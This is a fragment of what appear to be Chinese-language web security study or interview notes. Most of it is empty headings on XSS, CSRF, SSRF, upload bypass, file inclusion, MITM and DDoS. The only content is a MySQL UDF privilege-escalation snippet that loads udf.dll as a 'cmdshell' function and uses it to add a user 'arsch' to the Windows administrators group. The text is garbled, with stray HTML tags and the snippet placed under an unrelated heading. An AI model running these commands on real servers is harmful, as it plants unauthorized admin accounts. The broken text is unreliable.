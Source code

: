 #### 代替空格的方法

```
show variables like ‘%plugins%’</code> 寻找mysql安装路径 提权:</p>
使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

<pre>`create function cmdshell returns string soname ‘udf.dll’``select cmdshell(‘net user arsch arsch /add’);``select cmdshell(‘net localgroup administrators arsch /add’);`
<code>drop function cmdshell;
```

#### 反射型

#### DOM型

### DOM型和反射型的区别

### 对于XSS怎么修补建议

## CSRF

### CSRF原理

### token和referer做横向对比，谁安全等级高？

### 针对token，对token测试会注意哪方面内容，会对token的哪方面进行测试？

### SSRF漏洞的成因 防御 绕过

## 上传

### 常见的上传绕过方式

### 审查上传点的元素有什么意义？

### 导致文件包含的函数

### 金融行业常见逻辑漏洞

## 中间人攻击

#### 防护

### Ddos原理

#### CC攻击原理
